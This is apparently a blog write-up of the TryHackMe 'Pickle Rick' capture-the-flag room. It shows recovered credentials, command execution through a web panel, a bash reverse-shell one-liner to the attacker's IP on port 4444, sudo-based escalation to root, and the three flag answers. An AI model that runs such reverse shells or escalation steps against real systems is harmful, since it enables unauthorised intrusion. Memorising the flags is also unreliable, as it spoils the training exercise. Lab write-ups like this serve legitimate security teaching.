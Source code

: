 ```yaml
---
title: "Pickle Rick CTF - TryHackMe"
author: Ludovic COULON
date: 2020-05-19
hero: ./images/hero.jpeg
excerpt: "Writeup for the Pickle Rick CTF on TryHackMe"
---
```


[TryHackMe | Pickle Rick CTF](https://tryhackme.com/room/picklerick)

This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.

### Setup

<div className="Image__Medium">
  <img src="https://imgur.com/rM9j9mn.png" alt="blog_image" />
</div>

```bash
Note to self, remember username!

Username: R1ckRul3s
```

<div className="Image__Medium">
  <img src="https://imgur.com/lUU7tXN.png" alt="blog_image" />
</div>

```bash
Maybe a password ?
Wubbalubbadubdub
```

<div className="Image__Medium">
  <img src="https://imgur.com/xtHHGaE.png" alt="blog_image" />
</div>

```bash
Account:
R1ckRul3s:Wubbalubbadubdub
```

### #1 Deploy the virtual machine on this task and explore the web application. What is the first ingredient Rick needs?

<div className="Image__Medium">
  <img src="https://imgur.com/1vWZUA9.png" alt="blog_image" />
</div>

```bash
cat Sup3rS3cretPickl3Ingred.txt
```

<div className="Image__Medium">
  <img src="https://imgur.com/J5cZERN.png" alt="blog_image" />
</div>

Let's try something else then ...

[bash | GTFOBins](https://gtfobins.github.io/gtfobins/bash/)

```bash
bash -c 'exec bash -i &>/dev/tcp/10.9.2.228/4444 <&1'
```

```bash
www-data@ip-10-10-91-207:/var/www/html$ ls
ls
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
www-data@ip-10-10-91-207:/var/www/html$ cat Sup3rS3cretPickl3Ingred.txt
cat Sup3rS3cretPickl3Ingred.txt
mr. meeseek hair
```

### #2 Whats the second ingredient Rick needs?

When you are in root you can't cd in the directory so I used the less command like so.

```bash
less /home/rick/"second ingredients"
1 jerry tear
```

### #3 Whats the final ingredient Rick needs?

```bash
www-data@ip-10-10-91-207:/var/www/html$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-91-207.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-91-207.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
www-data@ip-10-10-91-207:/var/www/html$ sudo su
cd /root/
ls
3rd.txt
snap
cat 3rd.txt
3rd ingredients: fleeb juice
```
